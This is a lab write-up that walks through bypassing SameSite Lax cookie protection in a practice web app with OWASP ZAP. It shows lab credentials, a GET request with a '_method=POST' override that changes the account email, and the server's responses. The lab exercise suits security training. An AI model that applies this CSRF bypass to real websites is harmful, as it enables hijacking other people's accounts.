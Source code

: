# Lab: SameSite Lax bypass via method override [OWASP Zed Attack Proxy]

Open ZAP's browser and navigate to the lab, log in with credentials `wiener:peter` and update email address.

In the bottom pane, under __History__ tab check the `POST /my-account/change-email` request. Right-click it and select "Open/Resend with Request Editor" and notice that it doesn't use CSRF tokens in either cookies or request body:

_Request Body:_

```
email=attacker%40fakemail.com
```

Same way, check the _Response_ to `POST /login` request under __History__ and notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies:

_Set-Cookie header:_

```
Set-Cookie: session=LxZFUKZXvTn74atxTzq4FM9Y5YHk0gJZ; Expires=Thu, 24 Apr 2025 13:45:52 UTC; Secure; HttpOnly
```

As a result, the session cookie will be sent in cross-site `GET` requests, as long as they involve a top-level navigation. 

Now right click the `POST /my-account/change-email` request and select "Open in Requester Tab". On the _request_ pane's top navigation bar, there is a dropdown named "Method". Click on it and select `GET`. This will convert this `POST` request to an equivalent `GET` request. 

```
GET /my-account/change-email?email=attacker%2540fakemail.com HTTP/1.1
```

Send the request and see in the response that it only allows `POST` requests:

```
HTTP/1.1 405 Method Not Allowed
Allow: POST
```

Try overriding the method by adding the `_method` parameter to the query string:

```
GET /my-account/change-email?email=foo%40bar.com&_method=POST HTTP/1.1
```

Send the request and observe that it seems to have been accepted by the server:

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 6354
```

> The rest of the flow is the same as in the [original](README.md) write-up.
